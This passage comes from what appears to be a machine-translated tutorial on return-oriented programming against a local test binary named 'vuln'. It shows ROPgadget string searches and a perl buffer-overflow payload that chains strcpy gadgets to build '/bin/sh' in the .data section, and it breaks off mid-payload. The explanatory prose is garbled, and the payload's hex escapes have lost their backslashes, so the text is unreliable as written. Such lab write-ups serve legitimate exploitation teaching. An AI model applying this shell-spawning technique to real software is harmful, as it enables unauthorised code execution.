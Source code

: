 $ python2.7 ROPgadget/ROPgadget.py –binary vuln –string in  
Strings information  
\============================================================  
0x0804815d : in  
0x0804825e : in  
0x08048281 : in

$ python2.7 ROPgadget/ROPgadget.py –binary vuln –string /b  
Strings information  
\============================================================

$ python2.7 ROPgadget/ROPgadget.py –binary vuln –string /s  
Strings information  
\============================================================

$ python2.7 ROPgadget/ROPgadget.py –binary vuln –string s  
Strings information  
\============================================================  
0x08048162 : s  
0x08048252 : s  
0x0804825b : s  
0x08048262 : s  
0x08048266 : s  
0x08048270 : s  
0x08048279 : s  
0x08048299 : s  
0x080482b1 : s  
0x080482c2 : s

$ python2.7 ROPgadget/ROPgadget.py –binary vuln –string sh  
Strings information  
\============================================================

$ python2.7 ROPgadget/ROPgadget.py –binary vuln –string h  
Strings information  
\============================================================  
0x0804866c : h  
Ok, well, then we will use the addresses in this order: 0x08048154 ( “/”) 0x08048157 ( “b”), 0x0804815d (“in”), 0x08048154 (“/”), 0x08048162 (“s”), 0x0804866c (“h”).  
Anyway, ROPgadget only shows you terminated ” results (because we are asking exactly a string). Failure to find the necessary byte can always use xxd and easily find it (that way you get the offset of the byte in the file, then you will have to add the offset direction in which the program is loaded), but having all results ending in ” allows you to use strcpy() should not have strncpy() or memcpy() \[although you can always let strcpy() will copy what you want, that and stop when it finds a null byte, while the next call to strcpy() is just after the byte or bytes that interested serves perfectly, can terminate the chain with a strcpy() from a position where a null byte\].  
Well, to explode it has been said  
``$ ./vuln `perl -e 'print  
> "A"x140 . # relleno  
> "x70x83x04x08" . # strcpy  
> "x92x85x04x08" . # pop;pop;ret  
> "x18xa0x04x08" . # .data  
> "x54x81x04x08" . # "/"  
> "x70x83x04x08" . # strcpy  
> "x92x85x04x08" . # pop;pop;ret  
> "x19xa0x04x08" . # .data+1  
> "x57x81x04x08" . # "b"  
> "x70x83x04x08" . # strcpy  
> "x92x85x04x08" . # pop;pop;ret  
> "x1axa0x04x08" . # .data+2  
> "x5dx81x04x08" . # "in"  
> "x70x83x04x08" . # strcpy  
> "x92x85x04x08" . # pop;pop;ret  
> "x1cxa0x04x08" . # .data+4  
> "x54x81x04x08" . # "/"  
> "x70x83x04x08" . # strcpy  